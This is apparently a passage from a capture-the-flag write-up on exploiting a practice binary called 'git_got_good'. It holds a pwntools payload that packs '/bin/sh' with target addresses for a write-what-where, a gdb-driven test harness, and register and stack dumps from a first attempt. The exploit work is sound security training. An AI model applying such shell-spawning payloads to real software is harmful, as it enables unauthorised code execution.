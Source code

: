 | ---- | ---- | ---- | ---- |
| Written to | [rcx] | [rcx-8] | rcx |
| Register | rax | rdx | rcx |
| Location in rbp | [rbp-24] - [rbp-31] | [rbp-16] - [rbp-23] | [rbp-8] - [rbp-15] |
| Location in Payload | p[0-7] | p[8-15] | p[16-23] |
So the payload is stored in `rbp` from `[rbp-8]` to `[rbp-32]`.  Each 8 byte section of `rbp` is stored in a different register and then acted upon as seen in the moves.
###### Payload
```python
def pld():
	cmd = p64(0x68732F6E69622F)
	rcAddr = p64(0x4B07400000000000)
	pAddr  = p64(18106000000000000)
	return cmd + rcAddr + pAddr
```
Chose `/bin/sh` as my command because `cat flag.txt` is too long
All payload data is reversed
##### Attempt 1:
###### Code
```python
def testPld():
	p =  process('/bin/bash')
	p.sendline('gdb ./git_got_good -q')
	p.sendline("break *0x0000000000400800")
	p.sendline("r")
	p.recvuntil("save:")
	p.sendline(pld())
	p.interactive()
```
###### Registers
```
Breakpoint 1, 0x0000000000400800 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
 registers ────
$rax   : 0x68732f6e69622f  
$rbx   : 0x00007fffffffdef8  →  0x00007fffffffe268  → "/home/kali/Desktop/5-Week/git_got_good"
$rcx   : 0x40534fa24da000  
$rdx   : 0x4b07400000000000
$rsp   : 0x00007fffffffddc0  →  0x0068732f6e69622f ("/bin/sh"?)
$rbp   : 0x00007fffffffdde0  →  0x0000000000000001
$rsi   : 0x00007fffffffdc10  →  0x206d2749202c6b4f ("Ok, I'm "?)
$rdi   : 0x00007fffffffdbe0  →  0x00007fffffffdc10  →  0x206d2749202c6b4f ("Ok, I'm "?)
$rip   : 0x0000000000400800  →  <main+149> mov QWORD PTR [rcx], rax
```
###### Stack
```
0x00007fffffffddc0│+0x0000: 0x0068732f6e69622f ("/bin/sh"?)     ← $rsp
0x00007fffffffddc8│+0x0008: 0x4b07400000000000
0x00007fffffffddd0│+0x0010: 0x0040534fa24da000
0x00007fffffffddd8│+0x0018: 0xbd2acba24bd33000
0x00007fffffffdde0│+0x0020: 0x0000000000000001     ← $rbp
```
